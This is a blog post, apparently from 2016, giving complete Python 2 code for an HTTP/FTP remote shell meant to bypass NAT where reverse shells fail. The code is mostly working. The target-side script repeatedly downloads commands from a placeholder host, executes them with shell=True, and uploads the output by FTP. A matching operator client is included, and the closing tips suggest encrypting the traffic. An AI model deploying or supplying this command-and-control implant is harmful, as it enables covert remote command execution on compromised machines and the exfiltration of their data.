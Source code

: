 ```yaml
---
layout: post
title: "Useful Python Scripts: HTTP&FTP Shell"
date: 2016-04-25 18:00:00 +0200
categories: Scripting
tags:
  - scripting
  - shell
  - python
author: Joe Schmoe
---
```


Some people have problems with being unable to port forward, so they can't use reverse shells. Most of the time you can't use a bind shell either, if your target is behind NAT. What do!?  

## The Solution
What you can do is use a web server to transfer commands and outputs. So let's do just that!  

## The Server

We will need to use a few libraries:
{% highlight python linenos %}
import urllib2, ftplib, subprocess, StringIO, time, os
{% endhighlight %}
- urllib2: For downloading commands.
- ftplib: For uploading output.
- subprocess: For executing commands.
- StringIO: For turning strings into file objects. Why this is needed will be explained later.
- time: For sleeping.
  
Now that we have everything we need let's begin.  
  
{% highlight python linenos %}
import urllib2, ftplib, subprocess, StringIO, time
while True:
	try:
		command = urllib2.urlopen("http://server.com/input.txt").read()
	except Exception as e:
		print(str(e))
		time.sleep(20)
		
{% endhighlight %}

Seems pretty simple. We try downloading the input file, containing a command to execute. If there's an exception (No internet connection, input.txt doesn't exist, internet is on fire, etc.), we display it and wait 20 seconds before trying again. Now let's do something with the received command.

{% highlight python linenos %}
output = StringIO.StringIO(subprocess.check_output(command, shell=True))
{% endhighlight %}

We'll use subprocess the execute the command and get the output. Then, we will use StringIO to turn the command into a file object. Now let's upload the output to the FTP server.

{% highlight python linenos %}
ftp = ftplib.FTP("server.com")
ftp.login("username","password")
ftp.storbinary("STOR output.txt",output)
ftp.delete("input.txt")
ftp.quit()
ftp.close()
{% endhighlight %}

We create an FTP object and login to a server of our choosing. Then, we use the STOR command to store our output as output.txt. ftplib requires the second argument to be a file object, and that's why we needed to use StringIO earlier. After that, we delete the input file since it's no longer needed, and close our connection. The server is done!

{% highlight python linenos %}
import urllib2, ftplib, subprocess, StringIO, time, os
while True:
	try:
		command = urllib2.urlopen("http://server.com/input.txt").read()
		output = StringIO.StringIO(subprocess.check_output(command, shell=True))
		ftp = ftplib.FTP("server.com")
		ftp.login("username","password")
		ftp.storbinary("STOR output.txt",output)
		ftp.delete("input.txt")
		ftp.quit()
		ftp.close()
	except Exception as e:
		print str(e)
		time.sleep(20)
{% endhighlight %}

**The Client**

The client is very analogous to the server, so I don't think there's much to explain.

{% highlight python linenos %}
import urllib2, ftplib, time
while True:
	try:
		command = StringIO.StringIO(raw_input())
		
		ftp = ftplib.FTP("server.com")
		ftp.login("username","password")
		ftp.storbinary("STOR input.txt",command)
		try: ftp.delete("output.txt")
		except: pass
		ftp.quit()
		ftp.close()
		while True:
			try:
				output = urllib2.urlopen("http://server.com/output.txt").read()
				break
			except:
				time.sleep(5)
				continue
			
		print output
	except Exception as e:
		print str(e)
{% endhighlight %}

We get the command and turn it into a file object, upload it, and delete the previous output (The try/except is there because if output.txt doesn't exist ftplib raises an exception). Then we try reading the output every 5 seconds, and print it when we succeed.


Some suggestions for improving the script:
- Make it use HTTP/FTP only.
- Encrypt data before sending it.
- You need to append "cd <directory>" before every command, because subprocess always uses the current directory. Perhaps you can make the script change the current working directory?
- Show current directory and a prompt.


Hope you enjoyed this article!  
Joe Schmoe
